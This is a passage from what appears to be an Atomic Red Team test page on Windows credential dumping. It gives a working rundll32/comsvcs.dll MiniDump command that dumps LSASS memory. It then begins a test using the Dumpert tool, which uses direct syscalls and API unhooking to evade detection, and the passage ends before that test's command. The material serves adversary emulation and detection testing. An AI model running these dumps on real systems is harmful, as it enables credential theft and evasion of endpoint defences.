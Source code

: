 Upon successful execution, you should see the following file created $env:TEMP\lsass-comsvcs.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 2536dee2-12fb-459a-8c37-971844fa73be






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass-comsvcs.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Dump LSASS.exe Memory using direct system calls and API unhooking
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved using direct system calls and API unhooking in an effort to avoid detection. 
https://github.com/outflanknl/Dumpert
https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
Upon successful execution, you should see the following file created C:\\windows\\temp\\dumpert.dmp.

If you see a message saying \"The system cannot find the path specified.\", try using the  get-prereq_commands to download the  tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 7ae7102c-a099-45c8-b985-4c7a2d05790d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dumpert_exe | Path of Dumpert executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Outflank-Dumpert.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 

